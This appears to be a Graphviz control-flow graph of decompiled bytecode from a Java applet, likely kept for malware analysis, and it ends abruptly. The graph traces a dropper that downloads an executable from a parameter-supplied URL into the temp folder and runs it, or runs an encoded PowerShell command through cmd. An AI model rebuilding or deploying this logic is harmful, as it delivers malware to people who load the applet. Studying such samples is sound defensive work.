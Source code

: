 digraph "" {
    "r0 := @this: Java"
    "new java.util.Random"
    "r0 := @this: Java"->"new java.util.Random";
    "dup1.r"
    "new java.util.Random"->"dup1.r";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "dup1.r"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "goto return"
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "dup1.r"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "specialinvoke <java.util.Random: void <init>()>"
    "dup1.r"->"specialinvoke <java.util.Random: void <init>()>";
    "virtualinvoke <java.util.Random: long nextLong()>"
    "specialinvoke <java.util.Random: void <init>()>"->"virtualinvoke <java.util.Random: long nextLong()>";
    "staticinvoke <java.lang.Math: long abs(long)>"
    "virtualinvoke <java.util.Random: long nextLong()>"->"staticinvoke <java.lang.Math: long abs(long)>";
    "push 36"
    "staticinvoke <java.lang.Math: long abs(long)>"->"push 36";
    "staticinvoke <java.lang.Long: java.lang.String toString(long,int)>"
    "push 36"->"staticinvoke <java.lang.Long: java.lang.String toString(long,int)>";
    "store.r r1"
    "staticinvoke <java.lang.Long: java.lang.String toString(long,int)>"->"store.r r1";
    "new java.lang.StringBuilder"
    "store.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"java.io.tmpdir\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "staticget <java.io.File: java.lang.String separator>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticget <java.io.File: java.lang.String separator>";
    "staticget <java.io.File: java.lang.String separator>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r75"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r75";
    "store.r r75"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"java.io.tmpdir\"";
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticget <java.io.File: java.lang.String separator>";
    "staticget <java.io.File: java.lang.String separator>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "pop"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"pop";
    "push \"os.name\""
    "pop"->"push \"os.name\"";
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "store.r r3"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"store.r r3";
    "push \"os.arch\""
    "store.r r3"->"push \"os.arch\"";
    "push \"os.arch\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r4"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r4";
    "push \"\""
    "store.r r4"->"push \"\"";
    "store.r r76"
    "push \"\""->"store.r r76";
    "store.r r76"->"push \"\"";
    "store.r r77"
    "push \"\""->"store.r r77";
    "store.r r77"->"push \"\"";
    "store.r $r48"
    "push \"\""->"store.r $r48";
    "store.r $r48"->"push \"\"";
    "store.r $r53"
    "push \"\""->"store.r $r53";
    "store.r $r53"->"push \"\"";
    "store.r r80"
    "push \"\""->"store.r r80";
    "push -1"
    "store.r r80"->"push -1";
    "store.b b17"
    "push -1"->"store.b b17";
    "load.r r3"
    "store.b b17"->"load.r r3";
    "push \"win\""
    "load.r r3"->"push \"win\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"win\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r3"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r3";
    "load.r r0"
    "iflt load.r r3"->"load.r r0";
    "push \"WINDOWS\""
    "load.r r0"->"push \"WINDOWS\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"WINDOWS\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r76";
    "store.r r76"->"load.r r0";
    "push \"STUFF\""
    "load.r r0"->"push \"STUFF\"";
    "push \"STUFF\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r77";
    "store.r r77"->"load.r r0";
    "push \"64\""
    "load.r r0"->"push \"64\"";
    "push \"64\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r $r48";
    "store.r $r48"->"load.r r0";
    "push \"86\""
    "load.r r0"->"push \"86\"";
    "push \"86\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r $r53";
    "store.r $r53"->"load.r r0";
    "push \"ILIKEHUGS\""
    "load.r r0"->"push \"ILIKEHUGS\"";
    "push \"ILIKEHUGS\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r80";
    "push 0"
    "store.r r80"->"push 0";
    "push 0"->"store.b b17";
    "store.b b17"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r75"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r75";
    "load.r r75"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \".exe\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".exe\"";
    "push \".exe\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r75";
    "goto load.r r76"
    "store.r r75"->"goto load.r r76";
    "load.r r76"
    "goto load.r r76"->"load.r r76";
    "virtualinvoke <java.lang.String: int length()>"
    "load.r r76"->"virtualinvoke <java.lang.String: int length()>";
    "ifle load.r r0"
    "virtualinvoke <java.lang.String: int length()>"->"ifle load.r r0";
    "ifle load.r r0"->"load.r r75";
    "load.r r75"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"ifle load.r r0";
    "new java.net.URL"
    "ifle load.r r0"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r76";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r76"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"store.r r76";
    "new java.io.BufferedInputStream"
    "store.r r76"->"new java.io.BufferedInputStream";
    "new java.io.BufferedInputStream"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"load.r r76";
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"
    "load.r r76"->"specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>";
    "new java.io.File"
    "specialinvoke <java.io.BufferedInputStream: void <init>(java.io.InputStream)>"->"new java.io.File";
    "store.r r6"
    "new java.io.File"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "load.r r6"->"load.r r75";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "load.r r75"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "new java.io.BufferedOutputStream"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"new java.io.BufferedOutputStream";
    "new java.io.BufferedOutputStream"->"store.r r3";
    "store.r r3"->"load.r r3";
    "new java.io.FileOutputStream"
    "load.r r3"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"dup1.r";
    "dup1.r"->"load.r r6";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>"
    "load.r r6"->"specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>";
    "push 2048"
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream)>"->"push 2048";
    "newarray"
    "push 2048"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"load.r r1";
    "load.r r1"->"load.r r6";
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"
    "load.r r6"->"virtualinvoke <java.io.BufferedInputStream: int read(byte[])>";
    "store.i i0"
    "virtualinvoke <java.io.BufferedInputStream: int read(byte[])>"->"store.i i0";
    "load.i i0"
    "store.i i0"->"load.i i0";
    "ifgt load.r r3"
    "load.i i0"->"ifgt load.r r3";
    "goto load.r r3"
    "ifgt load.r r3"->"goto load.r r3";
    "goto load.r r3"->"load.r r3";
    "virtualinvoke <java.io.OutputStream: void flush()>"
    "load.r r3"->"virtualinvoke <java.io.OutputStream: void flush()>";
    "virtualinvoke <java.io.OutputStream: void flush()>"->"load.r r3";
    "virtualinvoke <java.io.OutputStream: void close()>"
    "load.r r3"->"virtualinvoke <java.io.OutputStream: void close()>";
    "virtualinvoke <java.io.OutputStream: void close()>"->"load.r r76";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r76"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r r0";
    "push \"nextPage\""
    "load.r r0"->"push \"nextPage\"";
    "push \"nextPage\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r3";
    "store.r r3"->"load.r r3";
    "ifnull load.b b17"
    "load.r r3"->"ifnull load.b b17";
    "ifnull load.b b17"->"load.r r3";
    "load.r r3"->"virtualinvoke <java.lang.String: int length()>";
    "ifle load.b b17"
    "virtualinvoke <java.lang.String: int length()>"->"ifle load.b b17";
    "ifle load.b b17"->"new java.net.URL";
    "new java.net.URL"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"load.r r3";
    "load.r r3"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r1"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "load.b b17"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"load.b b17";
    "push 1"
    "load.b b17"->"push 1";
    "ifcmpge.b staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "push 1"->"ifcmpge.b staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "ifcmpge.b staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "push \"C:\\Windows\\System32\\WindowsPowershell\\v1.0\""
    "dup1.r"->"push \"C:\\Windows\\System32\\WindowsPowershell\\v1.0\"";
    "push \"C:\\Windows\\System32\\WindowsPowershell\\v1.0\""->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean exists()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq load.r r77"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq load.r r77";
    "load.r $r48"
    "ifeq load.r r77"->"load.r $r48";
    "load.r $r48"->"virtualinvoke <java.lang.String: int length()>";
    "push 3"
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "ifcmple.i load.r r77"
    "push 3"->"ifcmple.i load.r r77";
    "load.r r4"
    "ifcmple.i load.r r77"->"load.r r4";
    "load.r r4"->"push \"86\"";
    "virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>"
    "push \"86\""->"virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>";
    "ifne load.r $r53"
    "virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>"->"ifne load.r $r53";
    "ifne load.r $r53"->"load.r r4";
    "load.r r4"->"push \"64\"";
    "push \"64\""->"virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>";
    "ifeq load.r r4"
    "virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>"->"ifeq load.r r4";
    "load.r $r53"
    "ifeq load.r r4"->"load.r $r53";
    "load.r $r53"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "push 3"->"ifcmple.i load.r r77";
    "new java.lang.ProcessBuilder"
    "ifcmple.i load.r r77"->"new java.lang.ProcessBuilder";
    "new java.lang.ProcessBuilder"->"dup1.r";
    "push 5"
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "newarray"->"store.r $r48";
    "store.r $r48"->"load.r $r48";
    "load.r $r48"->"push 0";
    "push \"cmd\""
    "push 0"->"push \"cmd\"";
    "arraywrite.r"
    "push \"cmd\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r48";
    "load.r $r48"->"push 1";
    "push \"/c\""
    "push 1"->"push \"/c\"";
    "push \"/c\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r48";
    "push 2"
    "load.r $r48"->"push 2";
    "push \"powershell\""
    "push 2"->"push \"powershell\"";
    "push \"powershell\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r48";
    "load.r $r48"->"push 3";
    "push \"-EncodedCommand\""
    "push 3"->"push \"-EncodedCommand\"";
    "push \"-EncodedCommand\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r48";
    "push 4"
    "load.r $r48"->"push 4";
    "push 4"->"load.r $r53";
    "load.r $r53"->"arraywrite.r";
    "arraywrite.r"->"load.r $r48";
    "specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>"
    "load.r $r48"->"specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>";
    "virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>"
    "specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>"->"virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>";
    "virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>"->"store.r $r48";
    "store.r $r48"->"load.r $r48";
    "virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>"
    "load.r $r48"->"virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>";
    "virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>"->"virtualinvoke <java.io.OutputStream: void close()>";
    "virtualinvoke <java.io.OutputStream: void close()>"->"load.r $r48";
    "virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>"
    "load.r $r48"->"virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r48";
    "virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>"
    "load.r $r48"->"virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>";
    "virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>"->"virtualinvoke <java.io.InputStream: void close()>";
    "goto load.r r77"
    "virtualinvoke <java.io.InputStream: void close()>"->"goto load.r r77";
    "load.r r77"
    "goto load.r r77"->"load.r r77";
    "load.r r77"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "ifcmpge.i load.r r77"
    "push 3"->"ifcmpge.i load.r r77";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "ifcmpge.i load.r r77"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"cmd.exe /c \\\"\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"cmd.exe /c \\\"\"";
    "push \"cmd.exe /c \\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r75";
    "load.r r75"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" \"";
    "push \" \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r80"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r80";
    "load.r r80"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\\"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\"\"";
    "push \"\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Process: int waitFor()>"
